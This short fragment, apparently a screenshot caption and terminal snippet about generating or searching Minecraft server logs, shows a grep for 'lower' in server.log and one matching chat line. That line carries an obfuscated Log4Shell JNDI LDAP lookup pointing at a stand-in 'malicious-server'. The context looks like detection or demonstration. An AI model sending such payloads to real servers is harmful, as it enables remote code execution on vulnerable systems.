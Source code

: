 Log generator for minecraft
grep  -i 'lower' ./server.log -n                            16:51:10
2856898:[07:49:28] [Server thread/INFO]: <BuilderBob> Hello!${j${lower:ndi}:l${upper:d}ap://ma${lower:l}icious-se${lower:rv}er/a}

